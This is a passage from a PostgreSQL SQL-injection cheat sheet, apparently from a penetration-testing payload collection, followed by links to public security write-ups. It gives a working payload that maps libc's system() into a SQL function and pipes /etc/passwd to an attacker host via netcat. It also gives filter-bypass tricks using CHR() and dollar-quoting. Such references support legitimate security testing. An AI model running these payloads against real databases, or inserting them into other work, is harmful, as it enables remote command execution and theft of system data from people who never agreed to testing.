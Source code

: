 ![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

### Using libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

### Bypass Filter

#### Quotes

Using CHR

```sql
SELECT CHR(65)||CHR(66)||CHR(67);
```

Using Dollar-signs  ( >= version 8 PostgreSQL)

```sql
SELECT $$This is a string$$
SELECT $TAG$This is another string$TAG$
```


## References

- [A Penetration Tester's Guide to PostgreSQL - David Hayter - July 22, 2017](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
- [Advanced PostgreSQL SQL Injection and Filter Bypass Techniques - Leon Juranic - June 17, 2009](https://www.infigo.hr/files/INFIGO-TD-2009-04_PostgreSQL_injection_ENG.pdf)
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - GreenWolf - March 20, 2019](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [Postgres SQL Injection Cheat Sheet - @pentestmonkey - August 23, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
- [PostgreSQL 9.x Remote Command Execution - dionach - October 26, 2017](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
- [SQL Injection /webApp/oma_conf ctx parameter - Sergey Bobrov (bobrov) - December 8, 2016](https://hackerone.com/reports/181803)
- [SQL Injection and Postgres - An Adventure to Eventual RCE - Denis Andzakovic - May 5, 2020](https://pulsesecurity.co.nz/articles/postgres-sqli)
